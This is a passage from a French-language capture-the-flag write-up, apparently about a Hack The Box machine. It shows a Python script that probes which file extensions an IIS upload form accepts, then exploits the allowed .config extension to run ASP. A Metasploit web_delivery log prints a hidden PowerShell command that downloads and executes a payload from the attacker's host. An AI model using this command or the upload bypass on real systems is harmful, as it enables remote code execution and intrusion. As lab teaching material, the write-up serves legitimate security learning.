 ```python
        response = sess.post(
            "http://10.10.10.93/transfer.aspx",
            data=data,
            files=files,
            headers={"referer": "http://10.10.10.93/transfer.aspx"}
        )

        if "Invalid File. Please try again" in response.text:
            print("Failed!")
            failed.add(ext)

        elif "File uploaded successfully." in response.text:
            print("Success!")
            succeed.add(ext)
        else:
            print(response.text)
            errored.add(ext)

print("succeed", succeed)
print("failed", failed)
print("errored", errored)
```

L'output est le suivant :  

```plain
succeed {'.01.jpg', '.opml.config', '.jpg', '.gif', '.003.l.jpg', '.thumb.jpg', '.001.l.jpg', '.l.jpg', '.png', '.docx', '.doc', '.002.l.jpg', '.003.jpg', '.004.jpg', '.0.jpg', '.config', '.xls', '.004.l.jpg', '.006.l.jpg', '.01-l.jpg', '.doc.doc', '.jpg.jpg', '.xlsx', '.jpeg'}
```

L'extension autorisée qui saute aux yeux est clairement le *.config*. C'est un peu l'équivalent IIS du *.htaccess*. L'extension est notamment mentionnée sur [le guide OWASP pour les failles d'upload de fichier](https://www.owasp.org/index.php/Unrestricted_File_Upload).  

Mais surtout on trouve un article de blog indiquant [qu'il est possible de placer de l'ASP](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/) dans le fichier *.config* et de le faire exécuter. C'est un peu la version Windows de [ce que j'ai pu faire sur le CTF Darknet](http://devloop.users.sourceforge.net/index.php?article160/solution-du-ctf-darknet-de-vulnhub). Rejoice !  

Encore faut-il s'avoir quoi mettre comme instructions ASP... Une recherche rapide permet de s'avoir comment exécuter un programme externe, il suffit alors de coupler ça avec (par exemple) le module web-delivery de Metasploit :  

```plain
msf exploit(multi/script/web_delivery) > exploit
[*] Exploit running as background job 3.

[*] Started reverse TCP handler on 10.10.14.21:139 
[*] Using URL: http://10.10.14.21:80/6ZBEmkVKkU
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -c $o=new-object net.webclient;$o.proxy=[Net.WebRequest]::GetSystemWebProxy();$o.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $o.downloadstring('http://10.10.14.21/6ZBEmkVKkU');
```
